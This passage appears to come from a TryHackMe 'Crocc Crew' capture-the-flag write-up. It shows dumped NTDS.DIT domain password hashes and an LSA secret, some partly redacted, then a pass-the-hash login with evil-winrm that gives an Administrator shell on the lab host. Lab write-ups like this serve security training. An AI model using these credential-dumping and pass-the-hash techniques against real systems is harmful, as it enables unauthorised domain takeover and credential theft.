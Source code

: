 ```bash
[*] NL$KM 
 0000   D5 05 74 5F A7 08 35 EA  EC 25 41 2C 20 DC 36 0C   ..t_..5..%A, .6.
 0010   AC CE CB 12 8C 13 AC 43  58 9C F7 5C 88 E4 7A C3   .......CX..\..z.
 0020   98 F2 BB EC 5F CB 14 63  1D 43 8C 81 11 1E 51 EC   ...._..c.C....Q.
 0030   66 07 6D FB 19 C4 2C 0E  9A 07 30 2A 90 27 2C 6B   f.m...,...0*.,k
NL$KM:d505745fa70835eaec25412c20dc360caccecb128c13ac43589cf75c88e47ac398f2bbec5fcb14631d438c81111e51ec66076dfb19c42c0e9a07302a90272c6b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ad....................022d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d4609747................797e:::
COOCTUS.CORP\Visitor:1109:aad3b435b51404eeaad3b435b51404ee:87..................912cb2e9e97bbb1:::
COOCTUS.CORP\mark:1115:aad3b435b51404eeaad3b435b51404ee:0b5e04d90d..................0848244ef:::
COOCTUS.CORP\Jeff:1116:aad3b435b51404eeaad3b435b51404ee:1004ed2b099.............3cc9b7:::
...
```
{: .nolineno}
{: .nolineno}

Lets **Pass-the-Hash** and get the shell of Administrator like this 🔻


```powershell
┌──(kali㉿kali)-[~/Downloads/Tryhackme/crocc_crew]
└─$ evil-winrm -i 10.10.180.93 -u Administrator -H <HASH>
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> whoami
cooctus\administrator
*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is 1296-13D1
C:.
+---3D Objects
+---Contacts
+---Desktop
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
|       crocc-crew-wallpaper.png
|
+---Saved Games
+---Searches
\---Videos
*Evil-WinRM* PS C:\Users\Administrator>
```